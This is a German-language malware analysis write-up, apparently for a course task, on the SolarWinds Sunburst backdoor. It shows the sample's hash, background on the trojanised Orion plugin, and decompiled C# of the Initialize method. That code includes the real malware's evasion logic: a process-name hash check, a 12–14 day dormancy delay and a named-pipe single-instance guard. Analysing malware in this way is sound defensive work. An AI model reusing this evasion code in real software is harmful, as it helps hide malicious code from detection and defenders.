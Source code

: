```
sha256sum task5.dll
32519b85c0b422e4656de6e6c41878e95fd95026267daab4215ee59c107d6c77  task5.dll
```

Eine kurze Webrecherche verwies tatsächlich auf [diesen Eintrag des NetbyteSEC Blogs](https://notes.netbytesec.com/2021/01/solarwinds-attack-sunbursts-dll.html), der dies bestätigt hat.

Sunburst war nicht eine Malware im üblichen Sinne, sondern ein trojanisiertes Solarwinds Orion-Plugin, bei welchem zusätzlicher Code über die Kompromittierung der Build Pipeline hinzugefügt worden war. Es kann also davon ausgegangen werden, dass es sich bei einem grossen Teil des Codes um legitimen Quellcode von Solarwinds handelt, was eine Analyse from the scratch noch weiter erschwert hätte. Daher wurde entschieden, das Sample nicht in seiner gänze zu analysieren, sondern gerade zu den Codestellen zu springen, die von den Angreifern hinzugefügt worden sind. Dafür wurde nochmals der obengenannte Blogartikel verwendet, der auf die Methode **OrionImprovementbusinessLayer.initialize** verweist.


## 02. Codeanalyse

### Initialisierung: Initialize-Methode

Die Methode Initialize tut im Wesentlichen folgendes:

1. Sie Prüft, in welchem Prozess wir uns befinden, und Bricht ab, falss es sich nicht um den korrekten Prozess handelt.
2. Sie prüft, ob die Malware bereits zwischen zwölf und vierzehn Tagen auf dem Computer ist, und führt nur aus, falls dies der Fall ist.
3. Sie Erstellt eine Named Pipe. Sofern die Pipe bereits vorhanden ist, wird eine Exception geworfen, die nicht gefangen wird. Dies sorgt vermutlich dafür, dass nur eine Instanz der Malware auf dem System ausgeführt wird.
4. Sie Ruft die Methode GetOrCreateUserID auf, die weiter unten genau erklärt wird.
5. Ruft die Funktion Update auf, die weiter unten genau erklärt wird.

```C#
	public static void Initialize()
	{
		try
		{
			if (GetHash(Process.GetCurrentProcess().ProcessName.ToLower()) != 17291806236368054941uL)//Are we in the right process? Return otherwise.
			{
				return;
			}
			DateTime lastWriteTime = File.GetLastWriteTime(Assembly.GetExecutingAssembly().Location);
			int num = new Random().Next(288, 336);
			if (DateTime.Now.CompareTo(lastWriteTime.AddHours(num)) < 0) //Only run if it is more than 288-336 hours since the executable was saved.
			{
				return;
			}
			//Creates a named pipe. If the named pipe. An exception will be thrown and not caught if the pipe already exists.
			instance = new NamedPipeServerStream(appId);
			//Reads the Value of reportStatus from a configuration file. Stops execution if it is set to truncate.
			ConfigManager.ReadReportStatus(out status);
			if (status == ReportStatus.Truncate)
			{
				return;
			}
			DelayMin(0, 0);§
			//Gets the domain of the current computer but not the host name.
			domain4 = IPGlobalProperties.GetIPGlobalProperties().DomainName;
			if (!string.IsNullOrEmpty(domain4) && !IsNullOrInvalidName(domain4))
```